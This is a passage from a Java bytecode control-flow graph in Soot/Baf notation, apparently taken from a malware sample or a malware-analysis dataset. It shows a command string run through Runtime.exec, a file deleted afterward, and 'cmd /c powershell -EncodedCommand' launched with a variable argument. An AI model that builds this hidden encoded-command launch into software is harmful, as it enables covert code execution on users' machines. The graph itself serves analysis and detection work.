    "load.r r59"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" \"";
    "push \" \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r61";
    "load.r r61"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\\"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\"\"";
    "push \"\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "pop"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r59";
    "load.r r59"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean delete()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean delete()>";
    "virtualinvoke <java.io.File: boolean delete()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldput <Java: java.lang.Object initialized>"
    "load.r r0"->"fieldput <Java: java.lang.Object initialized>";
    "fieldput <Java: java.lang.Object initialized>"->"goto return";
    "ifeq load.r r5"->"load.r r5";
    "push \"i\""
    "load.r r5"->"push \"i\"";
    "push \"i\""->"virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>"->"ifeq load.r r61";
    "ifeq load.r r61"->"load.r $r36";
    "load.r $r36"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "push 3"->"ifcmple.i load.r r61";
    "ifcmple.i load.r r61"->"new java.lang.ProcessBuilder";
    "new java.lang.ProcessBuilder"->"dup1.r";
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "newarray"->"store.r $r41";
    "store.r $r41"->"load.r $r41";
    "load.r $r41"->"push 0";
    "push 0"->"push \"cmd\"";
    "push \"cmd\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r41";
    "load.r $r41"->"push 1";
    "push 1"->"push \"/c\"";
    "push \"/c\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r41";
    "load.r $r41"->"push 2";
    "push 2"->"push \"powershell\"";
    "push \"powershell\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r41";
    "load.r $r41"->"push 3";
    "push 3"->"push \"-EncodedCommand\"";
    "push \"-EncodedCommand\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r41";
    "load.r $r41"->"push 4";
    "push 4"->"load.r $r36";
    "load.r $r36"->"arraywrite.r";
    "arraywrite.r"->"load.r $r41";
    "load.r $r41"->"specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>";
    "specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>"->"virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>";
    "virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>"->"store.r $r36";
    "store.r $r36"->"load.r $r36";
    "load.r $r36"->"virtualinvoke <java.lang.Process: void destroy()>";
    "virtualinvoke <java.lang.Process: void destroy()>"->"load.r $r36";
    "load.r $r36"->"virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>";
    "virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>"->"virtualinvoke <java.io.OutputStream: void close()>";
    "virtualinvoke <java.io.OutputStream: void close()>"->"load.r $r36";
    "load.r $r36"->"virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r36";
    "load.r $r36"->"virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>";
    "virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>"->"virtualinvoke <java.io.InputStream: void close()>";
    "ifgt load.r $r50"->"load.r $r50";
    "load.r $r50"->"load.r r7";
    "load.r r7"->"push 0";
    "push 0"->"load.i i0";
    "virtualinvoke <java.io.OutputStream: void write(byte[],int,int)>"
    "load.i i0"->"virtualinvoke <java.io.OutputStream: void write(byte[],int,int)>";
    "goto load.r r1"
    "virtualinvoke <java.io.OutputStream: void write(byte[],int,int)>"->"goto load.r r1";
}
